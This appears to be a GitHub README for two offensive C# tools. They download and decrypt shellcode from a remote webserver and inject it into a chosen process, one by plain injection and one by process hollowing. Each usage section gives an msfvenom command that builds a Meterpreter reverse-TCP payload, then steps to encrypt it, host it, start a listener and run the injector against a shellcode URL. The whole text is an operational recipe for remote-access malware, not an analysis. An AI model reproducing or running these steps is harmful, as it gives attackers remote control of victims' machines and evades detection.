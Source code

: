 # File: ShellCode-Injection.cs
  
    Download and decrypt a shellcode from a remote webserver, then inject it to a given process name

# Usage
  
   1. Generate the shellcode

          msfvenom -p windows/x64/meterpreter/reverse_tcp --smallest exitfunc=thread lhost=x.x.x.x lport=xxxx -f raw -o shellcode.bin
   
   2. Encrypt the shellcode

          .\ShellCode_Encryptor.exe shellcode.bin

   3. Host the encrypted shellcode and start the listener

   4. Execute

          .\ShellCode_Injection.exe <shellcode_Url> <process_name eg. notepad> 
          
# File: Process_Hollowing.cs

    Download and decrypt a shellcode from a remote webserver, then inject it using Process Hollowing technique
    
# Usage

    1. Generate the shellcode

          msfvenom -p windows/x64/meterpreter/reverse_tcp --smallest exitfunc=thread lhost=x.x.x.x lport=xxxx -f raw -o shellcode.bin

    2. Encrypt the shellcode

          .\ShellCode_Encryptor.exe shellcode.bin

    3. Host the encrypted shellcode and start the listener

    4. Execute

          .\Process_Hollowing.exe <shellcode_Url>
    
